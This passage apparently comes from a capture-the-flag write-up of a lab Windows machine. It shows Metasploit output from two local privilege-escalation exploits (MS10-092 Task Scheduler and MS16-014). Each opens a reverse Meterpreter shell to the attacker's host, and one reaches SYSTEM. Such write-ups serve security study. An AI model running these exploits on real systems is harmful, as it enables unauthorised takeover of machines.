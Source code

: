 
    msf exploit(windows/local/ms10_092_schelevator) > run

    [*] Started reverse TCP handler on 10.10.14.5:443
    [*] Preparing payload at C:\Windows\TEMP\qqTMYhyeIn.exe
    [*] Creating task: FnB0882rp0ZAqjr
    [*] SUCCESS: The scheduled task "FnB0882rp0ZAqjr" has successfully been created.
    [*] SCHELEVATOR
    [*] Reading the task file contents from C:\Windows\system32\tasks\FnB0882rp0ZAqjr...
    [*] Original CRC32: 0xd3070e6a
    [*] Final CRC32: 0xd3070e6a
    [*] Writing our modified content back...
    [*] Validating task: FnB0882rp0ZAqjr
    [*]
    [*] Folder: \
    [*] TaskName                                 Next Run Time          Status
    [*] ======================================== ====================== ===============
    [*] FnB0882rp0ZAqjr                          11/1/2018 10:55:00 PM  Ready
    [*] SCHELEVATOR
    [*] Disabling the task...
    [*] SUCCESS: The parameters of scheduled task "FnB0882rp0ZAqjr" have been changed.
    [*] SCHELEVATOR
    [*] Enabling the task...
    [*] SUCCESS: The parameters of scheduled task "FnB0882rp0ZAqjr" have been changed.
    [*] SCHELEVATOR
    [*] Executing the task...
    [*] Sending stage (206403 bytes) to 10.10.10.93
    [*] SUCCESS: Attempted to run the scheduled task "FnB0882rp0ZAqjr".
    [*] SCHELEVATOR
    [*] Deleting the task...
    [*] Meterpreter session 2 opened (10.10.14.5:443 -> 10.10.10.93:49201) at 2018-10-26 15:57:56 -0400
    [*] SUCCESS: The scheduled task "FnB0882rp0ZAqjr" was successfully deleted.
    [*] SCHELEVATOR

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM



While I'm here, I gave MS16-014 a run, and it worked as well:



    msf exploit(windows/local/ms16_014_wmi_recv_notif) > run

    [*] Started reverse TCP handler on 10.10.14.5:4444
    [*] Launching notepad to host the exploit...
    [+] Process 312 launched.
    [*] Reflectively injecting the exploit DLL into 312...
    [*] Injecting exploit into 312...
    [*] Exploit injected. Injecting payload into 312...
    [*] Payload injected. Executing exploit...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Sending stage (206403 bytes) to 10.10.10.93
    [*] Meterpreter session 3 opened (10.10.14.5:4444 -> 10.10.10.93:49202) at 2018-10-26 15:59:54 -0400
